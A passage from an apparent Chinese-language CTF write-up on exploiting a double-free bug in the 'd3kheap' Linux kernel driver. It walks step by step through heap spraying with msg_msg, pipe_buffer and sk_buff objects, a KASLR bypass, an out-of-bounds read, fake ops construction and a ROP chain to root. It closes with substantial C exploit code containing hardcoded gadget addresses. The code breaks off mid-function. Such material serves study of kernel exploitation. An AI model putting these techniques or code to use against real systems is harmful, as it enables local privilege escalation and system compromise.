**实现细节**：

1. **地址泄露**：
   遍历所有消息队列，通过`msgrcv(MSG_COPY | IPC_NOWAIT)`系统调用读取每个消息的内容。`MSG_COPY`标志确保读取操作不会修改消息内容，`IPC_NOWAIT`标志避免阻塞。当访问到重叠的结构时，读取到的实际上是`pipe_buffer`结构的字段，其中包括`pipe_buffer->ops`指针。这个指针指向内核中的一个函数表，包含内核基址的偏移信息。通过提取这个指针值，可以获得关键的内核地址信息。

2. **KASLR绕过**：
   通过泄露的`pipe_buffer->ops`地址，结合已知的内核符号偏移，可以计算内核基址，成功绕过KASLR保护机制。KASLR是现代操作系统的重要安全机制，通过随机化内核地址增加利用难度，地址泄露是绕过这一保护的关键步骤。计算公式为：$$A_{\text{base}} = A_{\text{ops}} - O_{\text{ops}}$$，其中$$A_{\text{ops}}$$是泄露的地址，$$O_{\text{ops}}$$是已知的偏移。

3. **目标定位**：
   通过操作管道的读取字节数，使特定的`pipe_buffer`具有唯一的`offset`和`len`值组合。具体来说，对每个管道读取不同数量的字节，创建唯一的指纹。然后通过`msgrcv(MSG_COPY | IPC_NOWAIT)`系统调用扫描前面定位出来victim消息队列，读取`pipe_buffer`结构的`offset`和`len`字段，从而精确定位victim管道的索引。这个步骤为后续的精确控制提供了目标对象。

**信息泄露的数学模型**：
设泄露的`pipe_buffer->ops`地址为$$A_{\text{ops}}$$，已知该函数表在内核镜像中的偏移为$$O_{\text{ops}}$$，则内核基址$$A_{\text{base}}$$为：

$$
A_{\text{base}} = A_{\text{ops}} - O_{\text{ops}}
$$

这个计算基于KASLR的工作原理：内核镜像加载时应用一个随机偏移，但函数之间的相对偏移保持不变。通过泄露一个已知函数的地址，可以计算出内核加载的实际基址。

#### 2-2-5. 内存状态转换与越界访问

**技术目标**：
关闭victim管道释放重叠的内存，然后堆喷`sk_buff`结构，将`pipe_buffer/msg_msg`重叠状态转换为`sk_buff/msg_msg`重叠状态，实现越界内存访问。这个阶段的关键是通过状态转换获得更大的内存访问能力。

**实现细节**：

1. **状态转换**：
   关闭定位到的victim管道，释放对应的`pipe_buffer`结构。然后通过套接字操作堆喷`sk_buff`结构，使其占据刚刚释放的内存区域。`sk_buff`是Linux网络子系统的核心数据结构，具有灵活的布局和可控的字段。通过控制`sk_buff`的数据内容，可以间接修改重叠的`msg_msg`结构。这个状态转换实现了从管道缓冲区到网络缓冲区的控制转移。

2. **结构伪造**：
   在堆喷`sk_buff`时，通过精心构造的数据伪造`msg_msg`结构的头部，特别是修改`msg_msg->m_ts`字段，将其设置为一个内存页的大小（4096字节）。这个修改使得通过`msg_msg`接口可以访问更大的内存范围，实现越界访问。`m_ts`字段表示消息的总大小，修改这个字段可以绕过内核的边界检查。

3. **越界访问**：
   由于`msg_msg->m_ts`字段被修改，通过`msgrcv(MSG_COPY | IPC_NOWAIT)`系统调用读取该消息时，可以越界读取同一内存页中的其他`msg_msg`结构，泄露邻近消息队列的地址信息和链表指针。这个越界访问能力为后续的操作提供了关键信息，包括邻近消息队列的地址和链表结构。

**越界访问的形式化描述**：
设原始`msg_msg`结构的内存范围为$$[A, A+256)$$，修改`m_ts`字段为4096后，可访问的范围扩展为$$[A, A+4096)$$。通过这个扩展的访问窗口，可以读取到同一内存页中的其他数据结构，包括邻近的`msg_msg`结构和其他内核对象。这种越界访问能力使得能够扫描和识别邻近的消息队列结构。

#### 2-2-6. 地址泄露与虚假结构构建

**技术目标**：
利用越界访问获得的信息，在邻近消息队列中构建虚假的数据结构，为后续的状态转移创造条件。这个阶段的核心是利用已获得的信息构建可控的内核对象。

**实现细节**：

1. **虚假结构构建**：
   在邻近消息队列中写入第二个消息，这个消息的内容被精心构造为虚假的`pipe_buffer->ops`地址，并在其中布置栈迁移gadget。这个虚假结构将在后续操作中被引用，用于控制程序执行流。栈迁移gadget用于将栈指针转移到可控的内存区域，为ROP链的执行创造条件。

2. **链表操作副作用**：
   当写入第二个消息时，内核会自动更新消息队列的链表结构，将第一个消息的`msg_msg->m_list.next`指针修改为第二个消息的地址。这个副作用可以被利用来泄露虚假结构的地址，因为链表指针的更新是内核自动完成的。通过监控链表指针的变化，可以验证虚假结构的正确位置。

3. **地址验证**：
   再次通过`msgrcv(MSG_COPY | IPC_NOWAIT)`系统调用读取victim消息队列，由于越界访问的能力，可以读取到邻近队列的第一个消息，从而泄露虚假`pipe_buffer->ops`的地址。这个验证步骤确认了内存控制的有效性和虚假结构的正确位置。成功的地址验证为后续的代码执行提供了信心。

**链表操作的形式化描述**：
设邻近队列的第一个消息为$$M_1$$，第二个消息为$$M_2$$，写入操作会执行：

$$
M_1.\text{m_list}.\text{next} = \text{addr}(M_2)
$$

这个更新后的指针值可以通过越界访问读取，验证了内存控制的有效性。这个操作展示了如何利用内核的正常功能来实现信息泄露，避免触发异常检测机制。

#### 2-2-7. 状态转移与内存控制

**技术目标**：
通过再次堆喷`sk_buff`结构，修改`msg_msg`的链表指针，然后触发消息释放，最终将`msg_msg/sk_buff`重叠状态转换为`pipe_buffer/sk_buff`重叠状态。这个阶段的关键是实现内存状态的精确控制。

**实现细节**：

1. **链表指针伪造**：
   再次堆喷`sk_buff`结构，伪造`msg_msg`结构中的`m_list.next`和`m_list.prev`指针，将其设置为之前泄露的邻近消息队列地址。这个操作是为了绕过内核释放`msg_msg`时的链表完整性检查，确保释放操作可以正常完成。内核在释放消息时会检查链表的完整性，伪造的指针可以绕过这些检查。

2. **状态转换触发**：
   通过`msgrcv`系统调用读取victim消息，触发其释放操作。释放后立即创建480个管道，堆喷`pipe_buffer`结构，将`msg_msg/sk_buff`重叠状态转换为`pipe_buffer/sk_buff`重叠状态。这个状态转换实现了内存控制目标的转移，从消息队列控制转向管道缓冲区控制。

3. **内存控制建立**：
   在新的重叠状态下，`pipe_buffer`结构与`sk_buff`结构共享相同的内存区域。通过控制`sk_buff`的数据内容，可以间接修改`pipe_buffer`结构的字段，包括关键的`pipe_buffer->ops`指针。这个控制为最终的代码执行创造了条件。`pipe_buffer->ops`指针控制着管道缓冲区的操作函数表，修改这个指针可以重定向代码执行流。

**状态转移的数学模型**：
设内存状态转移序列为：

$$
S_{\text{msg/pipe}} \xrightarrow{\text{free}} S_{\text{free}} \xrightarrow{\text{alloc}} S_{\text{msg/sk}} \xrightarrow{\text{modify}} S_{\text{msg'/sk}} \xrightarrow{\text{free}} S_{\text{free}'} \xrightarrow{\text{alloc}} S_{\text{pipe/sk}}
$$

其中$$S_{\text{msg/pipe}}$$表示`msg_msg`与`pipe_buffer`重叠状态，$$S_{\text{pipe/sk}}$$表示`pipe_buffer`与`sk_buff`重叠状态。这个状态转移序列展示了如何通过一系列精心控制的操作，逐步实现对关键数据结构的控制。

#### 2-2-8. 代码执行与权限验证

**技术目标**：
在`pipe_buffer`结构上布置ROP链，通过关闭管道触发代码执行，最终验证权限提升效果。这个阶段是技术验证的最终步骤，实现了从内存控制到代码执行的完整链。

**实现细节**：

1. **ROP链布置**：
   通过`sk_buff`堆喷修改`pipe_buffer`结构，在结构中布置ROP链。ROP链包含一系列精心选择的内核gadget，用于修改进程凭证，提升权限。ROP链的构造需要考虑内核版本和具体配置，确保在所有目标系统上都能正确执行。ROP链通常包括以下步骤：保存当前寄存器状态、定位当前进程的`cred`结构、将`cred`结构中的权限字段修改为root权限、恢复执行流。

2. **执行触发**：
   关闭所有管道文件描述符，触发`pipe_buffer->ops->release`函数的执行。由于`pipe_buffer->ops`指针已被修改为包含栈迁移gadget的地址，控制流被重定向到ROP链。这个触发机制利用了管道的正常清理过程，实现了代码执行的隐蔽触发。栈迁移gadget将栈指针转移到可控的`pipe_buffer`结构上，然后执行ROP链。

3. **权限提升**：
   ROP链执行后，修改当前进程的凭证，将有效用户ID设置为0（root）。然后通过系统调用验证权限状态，确认技术验证效果。成功的权限提升证明了整个技术验证链的有效性和完整性。通常通过调用`geteuid()`系统调用验证当前进程的有效用户ID是否为0，如果为0则说明权限提升成功。

**执行触发的形式化描述**：
设`pipe_buffer`结构为$$P$$，其`ops`字段指向地址$$A_{\text{fake}}$$，该地址处包含栈迁移gadget。关闭管道时，执行流为：

$$
\text{close}(fd) \rightarrow P.\text{ops}.\text{release}() \rightarrow A_{\text{fake}} \rightarrow \text{stack_pivot} \rightarrow \text{ROP_chain}
$$

ROP链执行后，进程凭证被修改：

$$
\text{cred}.\text{uid} = \text{cred}.\text{euid} = \text{cred}.\text{suid} = 0
$$

这个形式化描述清晰地展示了从管道关闭到权限提升的完整执行流程，包括控制流重定向、栈迁移和ROP链执行等关键步骤。

### 2-3. 关键技术原理深度分析

#### 2-3-1. 内核数据结构

**msg_msg结构分配与释放完整函数链**：
`msg_msg`是Linux System V消息队列的核心数据结构，其分配和释放涉及复杂的函数调用链：



**关键函数说明**：

- `ipcget`: 获取或创建IPC对象
- `newque`: 创建新的消息队列
- `do_msgsnd`: 发送消息的核心函数
- `load_msg`: 加载消息数据，调用`alloc_msg`分配内存
- `alloc_msg`: 分配`msg_msg`结构，最终调用`kmalloc`
- `do_msgrcv`: 接收消息的核心函数
- `free_msg`: 释放`msg_msg`结构，调用`kfree`

**pipe_buffer结构分配与释放完整函数链**：
`pipe_buffer`是Linux管道机制的核心数据结构，其分配和释放涉及特定的函数调用路径：



**关键函数说明**：

- `pipe_write`: 管道写入操作，可能触发缓冲区分配
- `alloc_pipe_buf`: 分配管道缓冲区
- `pipe_read`: 管道读取操作，可能触发缓冲区释放
- `free_pipe_buf`: 释放管道缓冲区
- `anon_pipe_buf_release`: 匿名管道缓冲区释放函数
- `__pipe_buf_release`: 管道缓冲区释放的核心函数

**sk_buff结构分配与释放完整函数链**：
`sk_buff`是Linux网络子系统的核心数据结构，具有复杂的分配和释放链：



**关键函数说明**：

- `unix_stream_sendmsg`: Unix域流套接字发送函数
- `sock_alloc_send_pskb`: 为发送分配sk_buff
- `alloc_skb_with_frags`: 分配带分片的sk_buff
- `alloc_skb`: 分配sk_buff的主要函数
- `__alloc_skb`: sk_buff分配的内部函数
- `unix_stream_recvmsg`: Unix域流套接字接收函数
- `unix_stream_read_generic`: 通用的流套接字读取函数
- `consume_skb`: 消费（释放）sk_buff
- `kfree_skb`: 释放sk_buff的主要接口
- `__kfree_skb`: sk_buff释放的内部函数
- `skb_release_all`: 释放sk_buff的所有资源
- `skb_release_data`: 释放sk_buff的数据部分
- `skb_free_head`: 释放sk_buff的头部
- `kfree_skbmem`: 释放sk_buff的内存

#### 2-3-2. 内存管理机制

**GFP标志与缓存隔离机制**：
Linux内核的内存分配通过GFP（Get Free Page）标志控制分配行为。在特定内核版本范围内，`GFP_KERNEL`和`GFP_KERNEL_ACCOUNT`之间存在缓存隔离机制的变化：

1. **5.9版本之前**：存在隔离机制，两种标志使用不同的缓存
2. **5.9至5.13版本**：隔离机制被移除，两者共享同一缓存
3. **5.14版本之后**：隔离机制被重新引入

这个变化对技术验证有重要影响。在隔离机制存在的版本中，通过不同GFP标志分配的对象可能位于不同的缓存中，这增加了内存布局的复杂性。在隔离机制不存在的版本中，对象可能共享相同的缓存，这简化了内存布局但增加了不确定性。

**内存分配器行为**：
Linux内核使用多种内存分配器管理不同大小的内存请求：

1. **Slab分配器**：用于管理固定大小的对象，提供高效的缓存机制
2. **SLUB分配器**：Slab的改进版本，简化了设计并提高了性能
3. **SLOB分配器**：用于内存受限的嵌入式系统
4. **伙伴系统**：管理物理页面，支持不同大小的连续内存分配

**内存重用机制**：
当内存被释放后，可能被重新分配给不同类型的对象。这种跨类型的内存重用是技术验证的关键：

1. **缓存级重用**：同一缓存内的对象重用，这是最常见的情况
2. **页面级重用**：不同缓存的对象共享物理页面，通过页面切割机制实现
3. **跨缓存重用**：通过伙伴系统的页面分配实现不同类型对象的重用

**时序控制的重要性**：
内存操作对时序非常敏感，特别是在竞争条件下：

1. **分配时机**：精确控制分配操作的时机，减少其他代码的干扰
2. **释放时机**：确保内存处于可重用状态，避免内存泄漏
3. **竞争避免**：通过同步机制减少其他内核代码的干扰
4. **延迟控制**：在关键操作之间添加适当延迟，确保内存管理器完成内部操作

#### 2-3-3. 安全机制与绕过技术

**KASLR保护机制**：
Kernel Address Space Layout Randomization通过随机化内核地址增加利用难度：

1. **随机偏移**：内核镜像加载时应用随机偏移，范围通常为几十兆字节
2. **函数指针泄露**：通过内核对象中的函数指针泄露地址，这是绕过KASLR的常用方法
3. **偏移计算**：基于泄露地址和已知偏移计算内核基址
4. **全局偏移表**：某些架构使用全局偏移表简化地址计算

**内存初始化保护**：
`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`配置确保分配的内存被清零：

1. **数据清除**：分配时自动清除内存内容，防止信息泄露
2. **信息泄露挑战**：增加信息泄露的难度，需要更复杂的技术

**链表完整性检查**：
内核在操作链表时会进行完整性检查：

1. **前驱后继验证**：检查相邻节点的指针，确保链表一致性
2. **链表遍历验证**：确保链表可以正确遍历，没有循环或断链
3. **绕过技术**：通过伪造相邻指针绕过检查，需要精确控制内存内容
4. **双重释放检测**：某些内核版本包含双重释放检测机制

**控制流完整性**：
现代内核包含多种控制流完整性保护：

1. **栈保护**：通过栈金丝雀防止栈溢出
2. **控制流保护**：通过间接跳转验证防止控制流劫持
3. **特权级别分离**：用户空间和内核空间的权限分离
4. **内存保护**：只读内存、不可执行内存等保护机制

### 2-4. 技术总结

本章详细分析了d3kheap驱动程序中的Double Free漏洞及其完整的技术验证流程。漏洞本质在于引用计数器`ref_count`的初始化错误和递减逻辑缺陷，导致同一块内存可以被释放两次，形成Double Free条件。在`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`配置启用（自动清除分配的内存）且仅有一次Double Free机会的严格限制下，整个技术验证过程展示了复杂而精密的内存操作技术。

完整的技术验证流程包含七个紧密衔接的阶段：

**阶段1：内存布局建立**。通过调用`OBJ_ADD`分配内存缓冲区，然后调用`OBJ_DEL`释放该缓冲区，形成悬垂指针。立即通过`msgsnd`系统调用堆喷4096个`msg_msg`结构，使其中一个`msg_msg`结构占据释放的缓冲区内存区域，为后续的Double Free操作创造条件。

**阶段2：Double Free转化UAF**。再次调用`OBJ_DEL`命令触发Double Free漏洞，释放已被`msg_msg`结构占用的内存区域。立即创建480个管道，通过`pipe`系统调用堆喷`pipe_buffer`结构，使其中一个`pipe_buffer`结构占据刚刚释放的`msg_msg`内存区域，形成`msg_msg`与`pipe_buffer`的结构重叠，将Double Free转化为Use-After-Free（UAF）原语。

**阶段3：信息泄露与目标定位**。利用重叠的结构特性，通过`msgrcv(MSG_COPY | IPC_NOWAIT)`系统调用读取`msg_msg`结构的内容，实际上访问的是`pipe_buffer`结构，泄露`pipe_buffer->ops`指针，计算内核基址，绕过KASLR保护。通过操作管道的读取字节数创建唯一指纹，利用`msgrcv(MSG_COPY | IPC_NOWAIT)`扫描精确定位victim管道的索引。

**阶段4：内存状态转换与越界访问**。关闭victim管道释放重叠的内存，然后堆喷`sk_buff`结构，将`pipe_buffer/msg_msg`重叠状态转换为`sk_buff/msg_msg`重叠状态。通过伪造`msg_msg`结构头部，修改`msg_msg->m_ts`字段为4096字节，实现越界访问同一内存页中的其他`msg_msg`结构，泄露邻近消息队列的地址信息和链表指针。

**阶段5：地址泄露与虚假结构构建**。利用越界访问获得的信息，在邻近消息队列中写入第二个消息，构造虚假的`pipe_buffer->ops`地址并布置栈迁移gadget。利用内核自动更新链表指针的副作用，通过`msgrcv(MSG_COPY | IPC_NOWAIT)`越界读取泄露虚假结构的地址，验证内存控制的有效性。

**阶段6：状态转移与内存控制**。再次堆喷`sk_buff`结构，伪造`msg_msg`的链表指针为泄露的邻近消息队列地址，绕过内核链表完整性检查。通过`msgrcv`触发victim消息释放，立即创建480个管道堆喷`pipe_buffer`结构，将`msg_msg/sk_buff`重叠状态转换为`pipe_buffer/sk_buff`重叠状态，建立对关键数据结构的控制。

**阶段7：代码执行与权限验证**。通过`sk_buff`堆喷修改`pipe_buffer`结构，布置ROP链。关闭所有管道文件描述符，触发`pipe_buffer->ops->release`函数执行，控制流重定向到包含栈迁移gadget的虚假结构，进而执行ROP链，修改进程凭证提升权限。最后通过系统调用验证权限状态，确认技术验证效果。

这个技术验证实例不仅展示了从单一Double Free漏洞到完整权限提升的复杂技术链，还体现了现代内核安全技术的多个关键方面：深入理解内核内存管理机制，包括Slab分配器、伙伴系统、缓存管理等组件的工作原理；掌握多种内核数据结构的特性和交互方式，包括`msg_msg`、`pipe_buffer`、`sk_buff`等核心数据结构；精通时序控制和竞争处理技术，在严格限制条件下实现精确的内存操作；综合应用多种绕过技术，包括KASLR绕过、内存初始化保护绕过、链表完整性检查绕过等。

特别需要注意的是，在整个技术验证过程中，对GFP标志和缓存隔离机制的理解至关重要。在特定内核版本中，`GFP_KERNEL`和`GFP_KERNEL_ACCOUNT`之间的隔离机制变化会影响内存布局策略。在5.9至5.13版本中，由于隔离机制被移除，两者共享同一缓存，这简化了某些操作但增加了不确定性。在其他版本中，需要根据实际的隔离机制调整技术验证策略。

整个技术验证过程在极其受限的条件下，通过堆布局、结构重叠、类型混淆、链表劫持、代码复用等多种高级技术的系统组合，展示了内核漏洞利用的工程精度和技术深度。这个实例不仅对理解内核安全机制有重要价值，也为防护机制的设计和改进提供了重要的技术参考。通过这个完整的技术验证链，可以更深入地理解内核安全防御的薄弱环节，为构建更安全的内核系统提供实践经验。

## 3. 实战演练

exploit核心代码如下：

```c
/* ===========================================================
 * KERNEL SYMBOL OFFSETS & GADGETS
 * =========================================================== */
#define PREPARE_KERNEL_CRED 0xffffffff810cee40    // prepare_kernel_cred function address
#define COMMIT_CREDS 0xffffffff810ce940           // commit_creds function address
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ff0  // Return to user mode gadget
#define ANON_PIPE_BUF_OPS 0xffffffff8224e880      // Anonymous pipe buffer operations

/* ROP gadgets for control flow hijacking */
#define PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39 0xffffffff8171db1c  // push rsi; jmp [rsi+0x39]
#define POP_RSP_RET 0xffffffff81034cf0           // pop rsp; ret
#define ADD_RSP_0X50_RET 0xffffffff81137a45      // add rsp, 0x50; ret
#define POP_RDI_RET 0xffffffff8108f9c0           // pop rdi; ret
#define POP_RCX_RET 0xffffffff81222333           // pop rcx; ret
#define MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET 0xffffffff81c3c9bb  // mov rdi, rax; rep movsq; ret

/* ===========================================================
 * HEAP SPRAY PARAMETERS
 * =========================================================== */
#define MSG_SIZE 0x400                  // Standard message size (1KB)
#define MSG_TYPE 0x41                   // Message type identifier
#define OOB_MSG_SIZE 0x1000             // Out-of-bounds read size (4KB)
#define MAX_PIPE_COUNT 0xf0 * 2         // Maximum number of pipes to spray
#define MSG_QUEUE_NUM 0x1000            // Number of message queues (4096)
/* ===========================================================
 * DATA STRUCTURES
 * =========================================================== */
/* Standard message structure for IPC */
struct msg_data_struct {
  long mtype;                           // Message type
  char mtext[MSG_SIZE - sizeof(struct msg_msg)];  // Message text buffer
} msg_data;

/* ===========================================================
 * GLOBAL STATE VARIABLES
 * =========================================================== */
int pipe_fds[MAX_PIPE_COUNT][2];        // Pipe file descriptors [pipe_idx][0=read,1=write]
int sock_fds[SOCKET_NUM][2];            // Socket pair file descriptors
int msqid[MSG_QUEUE_NUM];               // Message queue identifiers
size_t pipe_data[0x1000 / 8] = {0};     // Buffer for pipe writes (8-byte aligned)
long dev_fd;                            // File descriptor for vulnerable device
size_t *leak_data;                      // Pointer to leaked kernel data
int victim_qid = -1;                    // Queue ID containing the UAF victim
int victim_pipe_idx = -1;               // Index of pipe overlapping with victim
int found_nearby_msg_msg = 0;           // Flag indicating nearby msg_msg found
int nearby_qid = -1;                    // Queue ID of nearby message
int nearby_offset_idx = -1;             // Offset index for nearby message
size_t nearby_msg_msg_addr;             // Address of nearby msg_msg structure
size_t nearby_msg_queue_addr;            // Address of nearby message queue
size_t *fake_pipe_buffer = NULL;        // Pointer to fake pipe buffer structure
size_t *rop_chain = NULL;               // Pointer to ROP chain buffer
int rop_idx = 0;                        // Current index in ROP chain
char fake_msg[704] = {0};               // Fake message buffer (skb_shared_info consumes 320 bytes at tail)

/* ===========================================================
 * DEVICE INTERACTION COMMANDS
 * =========================================================== */
#define OBJ_ADD 0x1234                  // IOCTL command to allocate object
#define OBJ_EDIT 0x4321                 // IOCTL command to edit object
#define OBJ_SHOW 0xbeef                 // IOCTL command to show object
#define OBJ_DEL 0xdead                  // IOCTL command to delete/free object

/**
 * @brief Allocate a kernel object via ioctl
 */
void add_chunk(void) {
  ioctl(dev_fd, OBJ_ADD);
}

/**
 * @brief Free a kernel object via ioctl
 */
void delete_chunk(void) {
  ioctl(dev_fd, OBJ_DEL);
}

/* ===========================================================
 * HELPER FUNCTIONS
 * =========================================================== */

/**
 * @brief Create a pipe pair for heap spraying
 * @param pipe_idx Index in pipe_fds array
 */
void create_pipe(int pipe_idx) {
  if (pipe(pipe_fds[pipe_idx]) < 0) {
    log.error("Pipe creation failed at index %d", pipe_idx);
    exit(EXIT_FAILURE);
  }
}

/**
 * @brief Resize pipe buffer capacity
 * @param pipe_idx Index in pipe_fds array
 * @param new_size New buffer size in bytes
 */
void resize_pipe_buffer(int pipe_idx, int new_size) {
  if (fcntl(pipe_fds[pipe_idx][0], F_SETPIPE_SZ, new_size) < 0) {
    log.error("Pipe resize failed for pipe %d", pipe_idx);
    exit(EXIT_FAILURE);
  }
}

/* ===========================================================
 * EXPLOIT PHASE FUNCTIONS
 * =========================================================== */

/**
 * @brief Phase 1: Environment initialization and device setup
 * Sets up CPU affinity, saves user state, and opens vulnerable device
 */
void phase_1_init_environment(void) {
  log.info("===========================================================");
  log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP         ");
  log.info("===========================================================");

  log.info("Initializing exploit environment");
  bind_core(0);                         // Pin to core 0 for consistent behavior
  save_status();                         // Save user-mode registers for later return

  log.info("Opening vulnerable character device /dev/d3kheap");
  dev_fd = open("/dev/d3kheap", O_RDONLY);
  if (dev_fd < 0) {
    log.error("Failed to open /dev/d3kheap!");
    exit(-1);
  }
  log.success("Device opened successfully, fd: %ld", dev_fd);
}

/**
 * @brief Phase 2: Socket pair preparation for heap spraying
 * Creates socket pairs for sk_buff heap spraying
 */
void phase_2_prepare_sockets(void) {
  log.info("===========================================================");
  log.info("PHASE 2: SOCKET PAIR PREPARATION FOR HEAP SPRAYING        ");
  log.info("===========================================================");

  log.info("Creating %d socket pairs for sk_buff spraying", SOCKET_NUM);
  for (int i = 0; i < SOCKET_NUM; i++) {
    if (socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fds[i]) < 0) {
      log.error("Failed to create socket pair %d!", i);
      exit(-1);
    }
  }
  log.success("Successfully created %d socket pairs", SOCKET_NUM);
}

/**
 * @brief Phase 3: Message queue spraying and overlapping object setup
 * Creates message queues and sprays msg_msg objects to occupy freed memory
 */
void phase_3_spray_msg_queues(void) {
  log.info("===========================================================");
  log.info("PHASE 3: MESSAGE QUEUE SPRAYING & OVERLAPPING OBJECT SETUP");
  log.info("===========================================================");

  log.info("Creating %d message queues for heap grooming", MSG_QUEUE_NUM);
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    if ((msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) < 0) {
      log.error("Failed to create msg_queue %d!", i);
      exit(-1);
    }
  }
  log.success("Successfully created %d message queues", MSG_QUEUE_NUM);

  log.info("Triggering allocation of target chunk via ioctl");
  add_chunk();                          // Allocate initial chunk
  log.info("Freeing target chunk to create dangling pointer");
  delete_chunk();                       // Free chunk to create UAF condition

  log.info("Spraying msg_msg objects (%d bytes each) to occupy freed chunk", MSG_SIZE);
  memset(&msg_data, 0, sizeof(msg_data));
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
    *(size_t *)&msg_data.mtext[8] = *(size_t *)"BinRacer";
    *(size_t *)&msg_data.mtext[16] = i;
    *(size_t *)&msg_data.mtext[24] = *(size_t *)"BinRacer";
    if (write_msg(msqid[i], &msg_data, sizeof(msg_data), MSG_TYPE) < 0) {
      log.error("Failed to send msg to queue %d!", i);
      exit(-1);
    }
  }
  log.success("Completed msg_msg spraying across all queues");
}

/**
 * @brief Phase 4: Trigger use-after-free vulnerability
 * Double-frees the target chunk and sprays pipe buffers to reclaim it
 */
void phase_4_trigger_uaf(void) {
  log.info("===========================================================");
  log.info("PHASE 4: TRIGGER USE-AFTER-FREE VULNERABILITY             ");
  log.info("===========================================================");

  log.info("Double-freeing target chunk to create UAF condition");
  delete_chunk();                       // Second free creates UAF

  log.info("Spraying pipe buffers to reclaim freed memory (%d pipes)", MAX_PIPE_COUNT);
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    create_pipe(i);
    write(pipe_fds[i][1], pipe_data, 0x1000);   // Fill first page
    write(pipe_fds[i][1], pipe_data, 0x1000);   // Fill second page
  }
  log.success("Pipe buffer spraying completed");
}

/**
 * @brief Phase 5: Identify victim object and leak kernel base
 * Scans message queues to find the one containing our UAF victim
 */
void phase_5_identify_victim(void) {
  log.info("===========================================================");
  log.info("PHASE 5: IDENTIFY VICTIM OBJECT & LEAK KERNEL BASE        ");
  log.info("===========================================================");

  log.info("Scanning message queues to locate UAF victim");
  victim_qid = -1;
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    int ret = peek_msg(msqid[i], &msg_data, sizeof(msg_data), 0);
    // Check if read size differs from expected (indicates pipe_buffer overlap)
    if (ret != (MSG_SIZE - sizeof(struct msg_msg))) {
      victim_qid = i;
      leak_data = (size_t *)&msg_data;
      kernel_offset = leak_data[0] - ANON_PIPE_BUF_OPS;
      kernel_base += kernel_offset;
      hex_dump2("Leaked msg_data:", leak_data, 0x20);
      log.success("Victim queue ID: %d, unexpected read size: %d", victim_qid, ret);
      log.success("Leaked anon_pipe_buf_ops: 0x%lx", leak_data[0]);
      log.success("Kernel base address: 0x%lx", kernel_base);
      log.success("Kernel offset: 0x%lx", kernel_offset);
      break;
    }
  }
  if (victim_qid == -1) {
    err_exit("Failed to locate UAF in message queues!");
  }

  log.info("Marking pipes with unique identifiers for tracking");
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    read(pipe_fds[i][0], pipe_data, 0x1000);    // Reset pipe position
    read(pipe_fds[i][0], pipe_data, i + 1);      // Write unique marker
  }

  log.info("Extracting victim pipe index from corrupted msg_msg");
  peek_msg(msqid[victim_qid], &msg_data, sizeof(msg_data), 0);
  leak_data = (size_t *)&msg_data;
  victim_pipe_idx = (leak_data[1] & 0xFFFFFFFFULL) - 1;
  hex_dump2("Marked msg_data:", leak_data, 0x20);
  log.success("Identified victim pipe index: %d", victim_pipe_idx);

  log.info("Freeing victim pipe to create memory hole");
  close(pipe_fds[victim_pipe_idx][0]);
  close(pipe_fds[victim_pipe_idx][1]);
}

/**
 * @brief Phase 6: Out-of-bounds read to leak adjacent objects
 * Uses OOB read to discover nearby msg_msg structures and their queue addresses
 */
void phase_6_oob_read_leak(void) {
  log.info("===========================================================");
  log.info("PHASE 6: OUT-OF-BOUNDS READ TO LEAK ADJACENT OBJECTS      ");
  log.info("===========================================================");

  log.info("Constructing fake msg_msg for OOB read (size: %d bytes)", OOB_MSG_SIZE);
  build_msg((struct msg_msg *)fake_msg, 0, 0, MSG_TYPE,
            OOB_MSG_SIZE - sizeof(struct msg_msg), 0, 0);

  log.info("Spraying sk_buff objects to fill memory hole");
  if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
    log.error("Failed to spray sk_buff!");
    exit(-1);
  }
  log.success("sk_buff spraying completed");

  log.info("Cleaning up non-victim pipes");
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    if (i == victim_pipe_idx) continue;
    close(pipe_fds[i][0]);
    close(pipe_fds[i][1]);
  }

  log.info("Performing OOB read to scan adjacent memory regions");
  peek_msg(msqid[victim_qid], &msg_data,
           OOB_MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);

  found_nearby_msg_msg = 0;
  for (int i = 1; i < 3; i++) {
    leak_data = (size_t *)&msg_data.mtext[0x400 * i - sizeof(struct msg_msg)];
    if (leak_data[2] == MSG_TYPE) {
      nearby_offset_idx = i;
      found_nearby_msg_msg = 1;
      break;
    }
  }

  if (!found_nearby_msg_msg) {
    log.error("Failed to locate nearby msg_msg!");
    exit(-1);
  }

  nearby_msg_queue_addr = leak_data[0] - 0xc0;
  nearby_qid = leak_data[8];
  hex_dump2("Nearby msg_msg data:", leak_data, 0x50);
  log.success("Nearby queue ID: %d", nearby_qid);
  log.success("Leaked nearby msg_queue address: 0x%lx", nearby_msg_queue_addr);
  log.success("Nearby nearby msg_msg->m_list.next: 0x%lx", leak_data[0]);
  log.success("Nearby nearby msg_msg->m_list.prev: 0x%lx", leak_data[1]);
}

/**
 * @brief Phase 7: Fake pipe_buffer operations construction
 * Prepares fake pipe_buffer->ops in a nearby message queue
 */
void phase_7_build_fake_ops(void) {
  log.info("===========================================================");
  log.info("PHASE 7: FAKE PIPE_BUFFER OPERATIONS CONSTRUCTION         ");
  log.info("===========================================================");

  log.info("Preparing fake pipe_buffer->ops in nearby message queue");
  *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
  *(size_t *)&msg_data.mtext[8] = *(size_t *)"BinRacer";
  *(size_t *)&msg_data.mtext[16] = *(size_t *)"BinRacer";
  *(size_t *)&msg_data.mtext[24] = kernel_offset + PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39;

  if (write_msg(msqid[nearby_qid], &msg_data, sizeof(msg_data), MSG_TYPE) < 0) {
    log.error("Failed to write fake ops to queue %d!", nearby_qid);
    exit(-1);
  }
